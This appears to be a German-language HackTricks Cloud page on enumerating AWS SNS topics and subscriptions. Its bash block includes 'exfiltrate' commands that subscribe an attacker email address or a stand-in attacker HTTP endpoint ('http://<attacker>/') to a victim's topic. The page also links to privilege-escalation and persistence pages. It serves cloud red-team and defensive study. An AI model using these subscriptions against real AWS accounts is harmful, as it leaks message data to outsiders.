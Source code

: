 # AWS - SNS Enum

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) wird als **vollständig verwalteter Messaging-Dienst** beschrieben. Er unterstützt sowohl **Anwendung-zu-Anwendung** (A2A) als auch **Anwendung-zu-Person** (A2P) Kommunikationsarten.

Wichtige Funktionen für die A2A-Kommunikation umfassen **Publish/Subscribe (Pub/Sub)-Mechanismen**. Diese Mechanismen führen **Themen** ein, die entscheidend sind, um eine hohe Durchsatzrate, **push-basierte, viele-zu-viele Messaging** zu ermöglichen. Diese Funktion ist besonders vorteilhaft in Szenarien, die verteilte Systeme, Microservices und ereignisgesteuerte serverlose Architekturen umfassen. Durch die Nutzung dieser Themen können Publizierungssysteme Nachrichten effizient an eine **breite Palette von Abonnentensystemen** verteilen, was ein Fanout-Messaging-Muster erleichtert.

### **Unterschied zu SQS**

**SQS** ist ein **warteschlangenbasierter** Dienst, der Punkt-zu-Punkt-Kommunikation ermöglicht und sicherstellt, dass Nachrichten von einem **einzelnen Verbraucher** verarbeitet werden. Er bietet **mindestens einmalige Zustellung**, unterstützt Standard- und FIFO-Warteschlangen und ermöglicht die Nachrichtenaufbewahrung für Wiederholungen und verzögerte Verarbeitung.\
Im Gegensatz dazu ist **SNS** ein **Publish/Subscribe-basierter Dienst**, der **eins-zu-viele** Kommunikation ermöglicht, indem Nachrichten gleichzeitig an **mehrere Abonnenten** gesendet werden. Er unterstützt **verschiedene Abonnementendpunkte wie E-Mail, SMS, Lambda-Funktionen und HTTP/HTTPS** und bietet Filtermechanismen für gezielte Nachrichtenübermittlung.\
Während beide Dienste die Entkopplung zwischen Komponenten in verteilten Systemen ermöglichen, konzentriert sich SQS auf warteschlangenbasierte Kommunikation, während SNS ereignisgesteuerte, Fan-out-Kommunikationsmuster betont.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Beachten Sie, dass wenn das **Thema vom Typ FIFO** ist, nur Abonnenten, die das Protokoll **SQS** verwenden, genutzt werden können (HTTP oder HTTPS können nicht verwendet werden).

Stellen Sie außerdem sicher, dass Sie die richtige Region in **`--region`** angeben, auch wenn die `--topic-arn` die Region enthält, da Sie sonst einen Fehler erhalten, der darauf hinweist, dass Sie keinen Zugriff haben, aber das Problem die Region ist.
{% endhint %}

#### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## References

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
